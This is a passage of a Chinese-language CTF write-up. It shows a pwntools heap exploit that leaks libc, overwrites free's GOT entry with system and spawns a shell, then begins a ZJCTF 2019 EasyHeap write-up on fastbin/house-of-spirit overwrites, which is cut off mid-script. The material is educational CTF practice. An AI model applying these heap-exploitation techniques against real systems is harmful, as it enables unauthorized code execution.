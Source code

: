 ```python
	p.sendline('3')
	p.recvuntil('index: ')
	p.sendline(index)
	p.recvuntil('text length: ')
	p.sendline(text_length)
	p.recvuntil('text: ')
	p.sendline(text)
add('32', 'chunk1', '32', 'a'*0x20)
add('32', 'chunk2', '32', 'a'*0x20)
add('32', 'chunk3', '32', '/bin/sh\x00')
delete('0')

payload = 'a'*0x80 + p32(0) + p32(0) + 'a'*0x20 + p32(0) + p32(0) + p32(free_got) + '\x00'
add('128', 'chun4',str(len(payload)), payload)
show('1')
p.recvuntil('description: ')
free_addr = u32(p.recv(4))
libc = LibcSearcher('free', free_addr)
libc_base = free_addr - libc.dump('free')
sys_addr = libc_base + libc.dump('system')
edit('1', '4', p32(sys_addr))
delete('2')
p.interactive()
```







## [ZJCTF 2019]EasyHeap

hitcontraining_magicheap的改进版

![image-20210826235002399](C:\Users\xieyucheng\AppData\Roaming\Typora\typora-user-images\image-20210826235002399.png)

菜单界面，当输入4869，且$magic>=4869$​​时调用l33t函数。

![image-20210826235833641](C:\Users\xieyucheng\AppData\Roaming\Typora\typora-user-images\image-20210826235833641.png)

edit函数中可以重新设置输入的size，那么就可以溢出了。从而控制fastbin中chunk的fd指针。

magic在bss段，可以通过house of spirit在magic前找到能够制造fake chunk的地方，制造了fake chunk后对其进行edit修改magic值。（也可通过unsorted bin attack来修改）

![image-20210826235728646](C:\Users\xieyucheng\AppData\Roaming\Typora\typora-user-images\image-20210826235728646.png)

这里可以，并且可以看到magic是0。

exp

```python
from pwn import *
context.log_level = 'debug'

#p = process('./easyheap')
p = remote('node4.buuoj.cn', 29050)
heap_array = 0x6020e0
leet = 0x400c23
def add(size, content):
	p.recvuntil('Your choice :')
	p.sendline('1')
	p.recvuntil('Size of Heap : ')
	p.sendline(str(size))
	p.recvuntil('Content of heap:')
	p.sendline(content)
	
```